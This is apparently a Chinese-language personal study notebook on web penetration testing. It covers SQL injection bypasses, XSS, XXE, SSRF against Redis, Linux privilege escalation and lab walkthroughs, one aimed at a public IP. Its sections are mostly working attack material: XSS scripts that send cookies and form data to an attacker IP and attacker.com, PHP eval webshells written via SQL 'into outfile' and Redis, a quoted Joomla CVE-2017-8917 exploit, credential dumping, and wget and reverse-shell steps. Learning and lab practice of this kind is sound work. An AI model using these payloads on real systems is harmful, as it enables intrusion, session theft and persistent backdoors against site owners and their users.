

### 

除了br以外，sqlmap也可以完成工作，甚至更简单

```mysql
python sqlmap.py -r 1.txt --dbs
```

或者安装插件co2 






#### 3、二次注入

通过创建一个叫admin'#的 用户来更改admin的密码

```mysql
update users set password='123123' where uname='admin'#' sdf
UPDATE users SET PASSWORD='123123' where username='admin'#
```


#### 4、宽字节注入（必须是gbk编码）

```
一、先理解编码背景
1. ASCII（单字节）
每个字符占1个字节（0x00-0x7F）

反斜杠\ = 0x5C

2. GBK（双字节）
汉字占2个字节，范围：第一个字节0x81-0xFE，第二个字节0x40-0x7E 和 0x80-0xFE

关键：0x5C（反斜杠）正好落在GBK第二字节的范围内（0x40-0x7E）

这意味着：当%df + %5c拼在一起时，GBK会将其解释为一个合法的汉字"運"，而不是"一个字符+反斜杠"。

二、转义机制如何被利用
正常的防注入转义
后端代码（如PHP的addslashes()或MySQL的mysql_real_escape_string()）会将特殊字符转义：

text
输入：1'
转义后：1\'   （\的ASCII=0x5C，'的ASCII=0x27）
最终SQL：... where id='1\' ...   → 单引号被转义，失去了字符串结束符的作用
宽字节注入绕过
输入：1%df%27

处理过程：

URL解码后得到：0xdf + 0x27（单引号）
转义函数看到单引号0x27，在它前面加反斜杠0x5c
结果序列变为：0xdf + 0x5c + 0x27
关键：数据库使用GBK字符集读取这个序列
读取前两个字节0xdf + 0x5c → 识别为合法汉字"運"
剩下一个字节0x27 → 就是单引号，成功逃逸

text
原始输入:  %df%27
转义后:    %df%5c%27
GBK解析:   [運] + [']   → 单引号成功出现
```


### SQLMAP工具使用


```mysql
进入sqlmap中 输入python sqlmap.py -u "地址" --dbs(要在sqlmap的根目录)

python sqlmap.py -u "地址" --dbs --technique="U" -v 3 

-v 3 用来查看详细信息


python sqlmap.py -r 1.txt --dbs
1.txt 存放抓到的包，要在要爆破前面加上*


sqlmap -T 表名   
sqlmap -D 数据库名
sqlmap -C 列名（通常输入username,password，爆出密码）
```


```mysql
' or updatexml(1, concat(0x7e,  (select group_concat(column_name) from information_schema.columns where table_schema='xhcms' and table_name='users' limit 1,1 ) , 0x7e) ,1) --+ or '


Security+" or updatexml(1, concat(0x7e, (database())), 0) % #


 
```


## 五、xss漏洞

### 1、xss是什么

```
xss是什么

XSS（Cross-Site Scripting，跨站脚本攻击）​ 是一种常见的Web安全漏洞，攻击者通过在网页中注入恶意脚本代码（通常是JavaScript），当用户访问被污染的页面时，这些脚本会在用户的浏览器中执行，从而窃取用户信息、篡改页面内容或进行其他恶意操作。
```

### 2、xss原理

```
XSS的本质是“信任用户输入”的漏洞：Web应用未对用户输入的内容进行严格过滤或转义，导致攻击者可以将恶意脚本插入到页面中。当其他用户访问该页面时，浏览器会将其中的脚本当作正常内容执行（因为浏览器无法区分“可信脚本”和“恶意脚本”）。
```

### 3、xss类别

```html
1. 反射型XSS（Reflected XSS）
特点：恶意脚本通过URL参数等方式“反射”到页面中，仅在特定请求下触发（如点击恶意链接）。
流程：
攻击者构造一个包含恶意脚本的URL（例如：http://example.com/search?keyword=<script>alert('XSS')</script>）→ 诱使用户点击该链接 → 服务器将keyword参数直接拼接到HTML响应中 → 用户浏览器执行脚本。
危害：需诱导用户主动点击链接，通常用于钓鱼或窃取单次会话信息。

2. 存储型XSS（Stored XSS，持久化XSS）
特点：恶意脚本被存储在目标服务器的数据库或文件中（如评论、留言板、用户资料），所有访问该页面的用户都会触发脚本
流程：
攻击者在可输入内容的区域（如评论框）提交恶意脚本 → 服务器未过滤直接存储 → 其他用户访问包含该内容的页面时，脚本从服务器加载并执行。
危害：影响范围广（所有访问者），可能导致大规模用户信息泄露（如Cookie、账号）。

3. DOM型XSS（DOM-based XSS）
特点：漏洞存在于前端JavaScript代码中，而非服务器端。恶意脚本通过修改页面的DOM结构触发，不经过服务器处理。
流程：
页面中的JavaScript代码直接使用document.location、document.URL等用户输入的数据（如innerHTML）动态生成内容 → 攻击者构造特定URL（如http://example.com/page#<script>alert('XSS')</script>）→ 前端脚本解析URL片段并插入DOM → 浏览器执行脚本。
关键区别：服务器返回的HTML可能完全正常，但前端JS的处理逻辑导致了脚本执行。
```

xxs主要针对前端，攻击的是客户端，目前漏洞利用率不大

### xss可以利用的标签

```html
script标签：定义客户端脚本
<script>alert(1)</script>  <script>alert("xss")</script>  

img标签：定义 HTML 页面中的图片
     ------onerrot可以直接让图片不显示，改为自己想要的告警弹框 

input：规定用户可以在其中输入数据的字段，可以利用 onfocus（事件获得焦点的时候触发）、autofocus（自动获取焦点），
<input onfocus=alert(1);> 


svg：用来在 HTML 页面中直接嵌入 SVG 文件的代码，
<svg onload=alert(1);>

select：标签用来创建下拉列表，通过 autofocus 属性规定当页面加载时元素应该自动获得焦点，这个向量是使焦点自动跳到输入元素上，触发焦点事件，无需用户去触发

<select onfocus=alert(1)></select> 、 <select onfocus=alert(1) autofocus>

```

### 4、xss恶意代码

```html
// 窃取Cookie

<script>document.location='http://192.168.2.222:8888/?a='+document.cookie</script>
						//自己IP              端口       自己电脑要开监听


// 窃取表单数据
<script>
document.forms[0].onsubmit = function() {
var data = new FormData(this);
fetch('http://attacker.com/steal', {method:'POST', body:data});
}
</script>

不会重定向的xss
<script>new Image().src='http://192.168.2.222:8888/a='+document.cookie</script>xxx
```


## 六、XXE漏洞（xml外部实体注入）

### xml简介

```bash
xml用来申明java软件包和类，也可以用来传递数据，是一种标记语言和html类似，主要用于web开发中。
```

### xxe漏洞的产生

```
在解析外部实体的过程中，XML解析器可以根据URL中指定的方案（协议）来查询各种网络协议和服务（DNS，FTP，HTTP，SMB等）。外部实体对于在文档中创建动态引用非常有用，这样对引用资源所做的任何更改都会在文档中自动更新。但是，在处理外部实体时，可以针对应用程序启动许多攻击。这些攻击包括泄露本地系统文件，这些文件可能包含密码和私人用户数据等敏感数据，或利用各种方案的网络访问功能来操纵内部应用程序。通过将这些攻击与其他实现缺陷相结合，这些攻击的范围可以扩展到客户端内存损坏，任意代码执行，甚至服务中断，具体取决于攻击的上下文。
```

### xml注入攻击的分类

```
有回显和无回显
```

### xml的漏洞点



```
可以很清楚看到content-type是xml，输入的数据是标签的形式显示的
```



```php
SYSTM是系统关键字，把里面的伪协议当作命令运行，&xxe被当作用了变量，变量就是上面构造的内容，然后被告知用xml格式执行

内部的file://...可以更换成为其他伪协议

其实可以用来命令执行RCE，但是要安装expect，可以实现:expect//ls 查看当前目录
```


### yakit工具（用于xml无回显）

```
利用dnslog生成域名，更改  SYSTEM"  "里面的内容为生成的dns域名，来判断是否有xml漏洞
```

### linux绕过空格的方法

```
https://www.cnblogs.com/yangykaifa/p/19258369

有ifs绕过 cat${IFS}
重定向绕过 cat<>

但是在某些情况会过滤 < 等符号，可以选择用下载的方法来完成写码，最佳情况就是curl +IP地址 
```

## LINUX提权的方法

```shell
、

1、sudi提权，如果某个文件用suid权限，执行这个文件的时候普通用户也有root权限
查看suid文件命令
jehadadarkhole:~$ find / -user root -perm -4000 -print 2>/dev/null


find 提权
find suid文件 -exec whoami \;
执行之后输入id看看是否为root


更改为交互式命令行：
python3 -c 'import pty; pty.spawn("/bin/bash")'  

mount 提权
mount /dev/sdb  /mnt/test -exec /bin/bash \;
如何寻找可利用的suid文件：最佳选择就是寻找之前没有在系统发行版本出现的文件夹

2、sudo提权
查看计划任务 cat /etc/crontab  // 普通用户目录
		    cat /etc/crontab  // root用户目录


3、内核提权
查看当前系统版本，确认是否存在内核提权要求
cat /etc/issue   //查看版本
uname -a 查看内核

searchsploit 版本号   查看是否有内核漏洞
Linux Kernel 4.14.7 (Ubuntu 16 | linux/local/45175.c
Linux Kernel 4.4 (Ubuntu 16.04 | linux/dos/46529.c
Linux Kernel 4.4 (Ubuntu 16.04 | linux/local/40759.rb
Linux Kernel 4.4.0 (Ubuntu 14. | linux_x86-64/local/40871.c
这些就是可能利用的漏洞，后面的.c文件就是pyload

在靶机上面用weget下载文件，用工具解压
ww-dataiDC-3:/$ wget http://192.168.2.222:1234/39772.zip

在上面执行.sh脚本，之后再次执行新出来的脚本命令

用mfs执行内核提取
上传已经找到的内核提权脚本

upload /root/39772.zip
 ./compile.sh
 ./doubleput
 
./doublepu.c编译后会生成doublepu 要再次执行doublepu 提权到root
解决没有gcc的问题，本地编译后上传


4、mysql数据库UDF提权（udf是用户自定义函数）
数据库中创建自定义命令执行函数写码 my>=5.0
用冰蝎连接shell，用内网穿透


5、计划任务corn提权
查看etc下的crontab文件，可能找到用root权限的命令，把计划任务追加（这里不要修改），
通常直接反弹shell，因为可以把root用户权限弹到kali
```


## SSRF服务的请求伪造

ssrf请求伪造是将有漏洞的web服务器利用，发送恶意代码到其他设备完成如内网扫描，通常出现在能够支持内容分享的位置上。ssrf主要是黑盒测试，较难挖到，一般利用cURL。

ssrf漏洞利用

```
127.0.0.1/pikachu/vul/ssrt/ssrf_curl_php?url=dict://192.168.2.168:80
127.0.0.1/pikachu/vul/ssrt/ssrf_curl_php?url=http://192.168.2.168:80
```


### 基于Dict实现Redis操作

先nc监听（这里有未授权访问，可知直接连接）

```bash
nc ip地址+端口

输入一个命令，看回显是+pong就成功了
```


```java
centos系统定时任务的路径为：/var/spool/cron

debian系统定时任务的路径为：/var/spool/cron/crontabs

dict协议攻击redis，写入webshell
config set dir /root/.ssh  //设置数据库根目录，是隐藏的

config:set:dbfilename:authorized_key  //完成创建公钥目录

之后用putty生成一个私钥（创建时鼠标必须不停的动，否则不创建）

输入 set x "生成的密钥"  
    
之后输入save保存，用putty找到ssh下的credentials，把自己的密钥文件导入，之后就可以直接连接root用户，这里找到了网站根目录为app1
```

写码

```java
dict://localhost:6378/flushall  //清除缓存
dict://localhost:6378/config:set:dir:/var/www/html/app1   //指定写码根目录，这里已经知道是app1
dict://localhost:6378/config:set:dbfilename:shell.php
//写入后门文件

最后写码只能用16进制
    
dict://127.0.0.1:6379/set:test:"\n\n\x3c\x3f\x70\x68\x70\x20\x40\x65\x76\x61\x6c\x28\x24\x5f\x50\x4f\x53\x54\x5b\x78\x5d\x29\x3b\x3f\x3e\n\n"
每两个字符前加上\X
```

 

## 实战项目一

网站的搜索框无法注入，增加了过滤，但是点入商品页面时，url栏位的id值发生变化



尝试注入

```php
http://39.103.63.109:8001/product/show_product.php?id==1 and 1=2 --+
=1 and 1=2 --+
发现没有注入点，回到了主页，做了过滤
```

暂时没有找到注入点，先扫描目录



```
依次尝试
找到了http://39.103.63.109:8001/admin/login.php这个页面，是后台管理员的登陆页面页面
```

尝试构造万能密码登陆

```mysql
a' or 1=1 --+              '''''

返回
操作数据库失败You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' limit 0,1' at line 1
sql:select id,admin_name,admin_password,admin_purview,is_disable from bees_admin where admin_name='a' or 11 --+' limit 0,1

发现’=‘被过滤了，但是有报错已经可以确认有漏洞，顺便发现了id,admin_name,admin_password,admin_purview这几个字段。
```

已知有返回结果，构造联合查询语句

```mysql
直接构造
-1' union select 1,2,3,4,5 #            '
报错
操作数据库失败You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '1,2,3,4,5 #' limit 0,1' at line 1
sql:select id,admin_name,admin_password,admin_purview,is_disable from bees_admin where admin_name='-1' 1,2,3,4,5 #' limit 0,1

```

已知目前没有-1这个用户，但是后面的查询语句应该直接被过滤了。

### 尝试用复写来绕过联合查询（用于过滤关键字）

```mysql
屏蔽了union,select关键字，尝试用复写与空格构造
-1' un union ion selselectect 1,2,3,4,5 #           '
就算过滤完了，也依然无法进入，显示密码错误，
```

### 报错注入和联合查询注入的用法区别

联合查询注入只有存在回显的时候才能用，报错适合无回显,我们可以混着用，利用联合查询来报错显示更多信息

尝试报错注入

```mysql
admin' or updatexml(1, concat(0x7e, (database())), 5) #   '
操作数据库失败XPATH syntax error: '~bees'
数据库名字出来了
```

### 等于号的绕过（like）

```mysql
admin' or updatexml(1, concat(0x7e, (select group_concat(table_name) from information_schema.tables where table_schema='bees')), 0) #  '

操作数据库失败You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'information_schema.tablestable_schema'bees')), 0) #' limit 0,1' at line 1
sql:select id,admin_name,admin_password,admin_purview,is_disable from bees_admin where admin_name='admin' or updatexml(1, concat(0x7e, ( group_concat(table_name)information_schema.tablestable_schema'bees')), 0) #' limit 0,1
对比注入语句，发现代码少了等于
当等于被过滤的时候直接用like可以直接把=替换，

```

### 更改注入语句

```mysql
admin' or updatexml(1, concat(0x7e, (select group_concat(table_name) from information_schema.tables where table_schema like 'bees')), 0) #

依然报错
操作数据库失败You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'information_schema.tablestable_schema like 'bees')), 0) #' limit 0,1' at line 1
sql:select id,admin_name,admin_password,admin_purview,is_disable from bees_admin where admin_name='admin' or updatexml(1, concat(0x7e, ( group_concat(table_name)information_schema.tablestable_schema like 'bees')), 0) #' limit 0,1

审计后发现还屏蔽了where和from依旧复写绕过


```

表名

```mysql
尝试用联合查询加上报错注入
a' uni union on seselectlect 1,2,3,extractvalue(1,concat(0x7e,(seselectlect table_name fr from om information_schema.tables wh where ere table_schema like 'bees' limit 0,1),0x7e)),5#       
limit 0,1 是为了防止过多的数据显示不出来，然后依次改成limit 1,1等等
结果
操作数据库失败XPATH syntax error: '~bees_admin~' bees_admin_group
```

列名 

```mysql
a' uni union on seselectlect 1,2,3,extractvalue(1,concat(0x7e,(seselectlect column_name fr from om information_schema.columns wh where ere table_schema
like 'bees' a and nd table_name like 'bees_admin' limit 0,1),0x7e)),5#

操作数据库失败XPATH syntax error: '~id~' 
依次试出列名
```

dump数据

```mysql
a' uni union on seselectlect 1,2,3,extractvalue(1,concat(0x7e,(seselectlect group_concat(admin_name,0x7e,admin_password) fr from om bees.bees_admin),0x7e)),5#

操作数据库失败XPATH syntax error: '~admin~83fbcd0e695e1a5cc27fa0522'
放到md5中撞库
```

### tamper可以绕过过滤

```shell
python .\sqlmap.py -u "" --abs --tamper="绕过的脚本"
```

### sql注入写码

```mysql
必须知道网站根目录，并且有写权限
a' uni union on seselectlect 1,2,3,<?php @eval($_POST[cmd]);?> into outfile '/var/www/html/BEES/shell.php',5#
绕过过滤
a' uni union on seselectlect 1,2,3,0x3c3f70687020406576616c28245f504f53545b636d645d293b3f3e into outfile '/var/www/html/BEES/shell.php',5#
```

### 工具利用之xray

支持漏扫，长亭开发。

```
自动开始扫描端口
webscan --listen ip+端口(通过改代理志向本地，如127.0.0.1；7777)  --html-output test.html
														结果保存到
通常时间盲注，通过poc进行注入，查看是否有注入点

要使用xray还是要有证书安装
```


## 实战项目二 git源码泄露

其他的基于python项目也要用source venv/bin/activate之后才行

```
扫描敏感目录的时候扫出一个.git目录
使用git-dumper分析git文件
创建项目的python虚拟环境
python -m venv venv
激活命令
source venv/bin/activate

pip3 install -i https://pypi.tuna.tsinghua.edu.cn/simple --trusted-host pypi.tuna.tsinghua.edu.cn git-dumper
或
先下载git-dumper，安装依赖模块
pip install -r requirements.txt -i https://pypi.tuna.tsinghua.edu.cn/simple --trusted-host pypi.tuna.tsinghua.edu.cn
git-dumper http://192.168.2.140/.git/ backup

git log
fit diff xxxxx //提交代码的commit校验值，三个哈希值一个一个试
lush@admin.com
321

```

## 虚拟机为什么nat不联网？

```
去看虚拟机设置里面nat设置，里面设置的.2不是.1
```


## web渗透思路

有指纹的优先找历史漏洞去打，没有漏洞就考虑漏洞扫描工具进行扫描。

关于dirsearch目录扫描，基本命令

```shell
dirsearch -u  ip/网站
```


## 实战项目三  框架漏洞利用

### 渗透测试信息收集老三样

```shell
1、网段主机扫描  //确定ip
arp-scan -l   
2、端口扫描 		//确定开放端口
nmap -T4 -A -v ip地址  -p-     
3、目录扫描 dirsearch -u ip/网站	//查看网站目录

```

扫描成功之后

```shell
找到
http://192.168.164.141/administrator/这个后台登陆界面
/robots.txt.dist  这个显示文件目录的关键页面


User-agent: *
Disallow: /administrator/
Disallow: /bin/
Disallow: /cache/
Disallow: /cli/
Disallow: /components/
Disallow: /includes/
Disallow: /installation/
Disallow: /language/
Disallow: /layouts/
Disallow: /libraries/
Disallow: /logs/
Disallow: /modules/
Disallow: /plugins/
Disallow: /tmp/

```

确认了php框架为joomla，寻找joomla的历史漏洞

### 漏洞平台网站

```http
exploit-db.com  
```

下载joomscan 用来确定版本

```shell
joomscan -u <URL>
确认版本：
[++] Joomla 3.7.0                                                
```

去漏洞平台搜索版本Joomla 3.7.0    

```shell
# Exploit Title: Joomla 3.7.0 - Sql Injection
# Date: 05-19-2017
# Exploit Author: Mateus Lino
# Reference: https://blog.sucuri.net/2017/05/sql-injection-vulnerability-joomla-3-7.html
# Vendor Homepage: https://www.joomla.org/
# Version: = 3.7.0
# Tested on: Win, Kali Linux x64, Ubuntu, Manjaro and Arch Linux
# CVE : - CVE-2017-8917


URL Vulnerable: http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml%27


Using Sqlmap: 

sqlmap -u "http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]


Parameter: list[fullordering] (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (DUAL)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(CASE WHEN (1573=1573) THEN 1573 ELSE 1573*(SELECT 1573 FROM DUAL UNION SELECT 9674 FROM DUAL) END)

    Type: error-based
    Title: MySQL >= 5.0 error-based - Parameter replace (FLOOR)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT 6600 FROM(SELECT COUNT(*),CONCAT(0x7171767071,(SELECT (ELT(6600=6600,1))),0x716a707671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a)

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace (substraction)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT * FROM (SELECT(SLEEP(5)))GDiu)
```

--random-agent可以随机agent头，防止被发现

使用playload

```sql
web server operating system: Linux Ubuntu 16.04 or 16.10 (xenial or yakkety)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.1
[15:26:42] [INFO] fetching database names
[15:26:42] [INFO] retrieved: 'information_schema'
[15:26:42] [INFO] retrieved: 'joomladb'
[15:26:42] [INFO] retrieved: 'mysql'
[15:26:42] [INFO] retrieved: 'performance_schema'
[15:26:42] [INFO] retrieved: 'sys'
available databases [5]:
[*] information_schema
[*] joomladb
[*] mysql
[*] performance_schema
[*] sys

[15:26:42] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 2717 times
[15:26:42] [INFO] fetched data logged to text files under 'C:\Users\CJS\AppData\Local\sqlmap\output\192.168.164.141'

```

注意这里是要用报错查询，帮忙猜表，在之后要选择继续

john kali自带的密文破解工具，破解出密码，找到能写文件的地方，写下shell，之后连接

## 第二种反弹shell方法

```shell
拿shell常见方法 
1、webshell工具--蚁剑等 正向shell
2、nc反弹shell --在攻击机本地开启nc监听，然后访问shell文件，实现shell反弹
3、metasploit（msf）框架反弹shell，在mfs上监听湍口，然后访问shell，之后反弹

